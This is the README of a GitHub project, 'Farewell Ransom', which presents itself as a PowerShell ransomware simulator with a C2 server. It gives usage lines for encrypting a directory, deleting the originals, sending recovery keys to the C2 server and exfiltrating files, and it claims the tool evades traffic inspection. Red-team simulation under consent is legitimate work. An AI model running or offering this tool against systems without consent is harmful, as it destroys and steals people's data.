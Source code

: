 <p align="center"><img width=750 alt="Farewell Ransom" src="https://github.com/BZHack/Farewell-Ransom/blob/main/Demo/RUCyberArmy.jpg"></p>

# Farewell Ransom
**Farewell Ransom** is a PowerShell Ransomware Simulator with C2 Server capabilities. This tool helps you simulate encryption process of a generic ransomware in any system on any system with PowerShell installed on it. Thanks to the integrated C2 server, you can exfiltrate files and receive client information via HTTP.

It's a fork of the great work of JoelGMSec https://github.com/JoelGMSec/PSRansom

All communication between the two elements is encrypted or encoded so as to be undetected by traffic inspection mechanisms, although at no time is HTTPS used at any time.

# Requirements
- PowerShell 4.0 or greater

# Download
It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:
```
git clone https://github.com/BZHack/Farewell-Ransom
```


# Usage
```
.\frsm.ps1 -h

   ##################
   ##################
   ##################

   "  ----------------- by @RUCyberArmy ----------------  "

 Info:  This tool helps you simulate encryption process of a
        generic ransomware in PowerShell with C2 capabilities

 Usage: .\frsm.ps1.ps1 -e Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server & Delete the original files
          Use -x to exfiltrate and decrypt files on C2Server

        .\frsm.ps1 -d Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Usage safe:
         .\frsm.ps1 -se Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server & Hide the original files
          Use -x to exfiltrate and decrypt files on C2Server

        .\frsm.ps1 -de Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Extra parameter: -full , to change wallpaper and show a pop-up         


 Warning: All info will be sent to the C2Server without any encryption
          You need previously generated recovery key to retrieve files

```

### The detailed guide of use can be found at the following link:

TBD


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
This tool has been created and designed from scratch by Joel Gámez Molina // @JoelGMSec

BZHack just forked it !


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can find us on Twitter as [@asso_bzhack](https://twitter.com/asso_bzhack) and on my blog [bzhack.bzh](https://www.bzhack.bzh/).

# TO DO

- Make encryption between client en C2Server
- Add better handle of exfill
- Add control on decrypt to make sure all files are recovered before erasing encrypted source (this is not an issue if you use the proper recovery key)
